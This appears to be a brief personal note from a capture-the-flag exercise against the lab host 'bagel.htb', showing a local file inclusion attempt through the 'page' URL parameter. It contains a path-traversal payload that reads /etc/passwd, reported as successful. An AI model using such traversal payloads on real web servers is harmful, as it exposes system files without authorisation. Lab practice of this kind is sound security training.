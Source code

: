
http://bagel.htb:8000/?page=index.html  => ? nout mar file shi dal  -> should try with LFI

http://bagel.htb:8000/?page=../../../../etc/passwd    => DONE bro i got it.